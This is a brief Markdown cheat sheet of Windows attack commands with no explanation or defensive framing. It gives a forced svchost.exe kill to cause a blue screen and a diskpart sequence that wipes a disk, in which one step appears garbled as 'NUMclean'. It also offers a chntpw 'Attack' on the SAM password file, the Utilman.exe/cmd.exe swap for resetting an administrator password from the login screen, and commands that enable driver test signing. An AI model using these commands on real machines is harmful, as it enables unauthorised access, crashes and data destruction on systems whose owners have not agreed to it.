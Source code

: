 # Windows

### Blue Screen
```
taskkill /t /f /IM "svchost.exe"
```

### Diskpart
`diskpart` > `list disk` > `select disk NUMclean` > `create partition primary` > `format fs=ntfs quick` > `assign` > `exit`

### Password

**Location :**
`Windows` > `System32` > `config`


**Attack :**
```sh
chntpw -i SAM
```

### Windows Server Password
```
cd Windows\System32
move Utilman.exe Utilman.exe.old
copy cmd.exe Utilman.exe
```
```
Win+U
net user administrator passwd
```

```
cd Windows\System32
move Utilman.exe.old Utilman.exe
```

### Windows 10 Test Mode

**Enable**
```
Bcdedit.exe -set TESTSIGNING ON
```

**Disable**
```
Bcdedit.exe -set TESTSIGNING OFF
```

> -- Berthose Fin --
